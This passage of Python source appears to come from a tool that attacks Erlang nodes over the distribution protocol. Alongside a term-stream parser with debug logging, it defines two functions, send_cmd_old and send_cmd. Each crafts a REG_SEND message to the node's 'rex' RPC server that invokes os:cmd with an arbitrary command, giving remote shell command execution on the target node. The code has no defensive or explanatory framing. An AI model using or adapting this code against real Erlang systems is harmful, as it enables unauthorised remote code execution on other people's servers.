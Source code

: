 ```
  # Remove 0x70 from the head of the stream
  data = data[1:]

  print("Received data to parse: %s" % data)  # Logging the raw data

  while data:
    try:
      (parsed, term) = erl.binary_to_term(data)
      if parsed <= 0:
        print('Failed to parse Erlang term, raw data: %s' % data)
        break
    except erl.ParseException as e:
      print('ParseException occurred: %s. Data: %s' % (str(e), data))
      break

    print("Parsed term: %s" % str(term))  # Log parsed term for debugging

    yield term
    data = data[parsed:]


def encode_string(name, type=0x64):
  return pack('!BH', type, len(name)) + name

def send_cmd_old(name, cmd):
  data = (unhexlify('70836804610667') + 
    encode_string(name) + 
    unhexlify('0000000300000000006400006400037265') +
    unhexlify('7883680267') + 
    encode_string(name) + 
    unhexlify('0000000300000000006805') +
    encode_string('call') +
    encode_string('os') +
    encode_string('cmd') +
    unhexlify('6c00000001') + 
    encode_string(cmd, 0x6b) + 
    unhexlify('6a') + 
    encode_string('user'))

  return pack('!I', len(data)) + data


def send_cmd(name, cmd):
  # REG_SEND control message
  ctrl_msg = (6,
    erl.OtpErlangPid(erl.OtpErlangAtom(name), '\x00\x00\x00\x03', '\x00\x00\x00\x00', '\x00'),
    erl.OtpErlangAtom(''),
    erl.OtpErlangAtom('rex'))
  msg = (
    erl.OtpErlangPid(erl.OtpErlangAtom(name), '\x00\x00\x00\x03', '\x00\x00\x00\x00', '\x00'),
    (
      erl.OtpErlangAtom('call'),
      erl.OtpErlangAtom('os'),
      erl.OtpErlangAtom('cmd'),
      [cmd],
      erl.OtpErlangAtom('user')
    ))

  new_data = '\x70' + erl.term_to_binary(ctrl_msg) + erl.term_to_binary(msg)

  print("Sending command data: %s" % new_data)  # Log the command being sent

  return pack('!I', len(new_data)) + new_data
```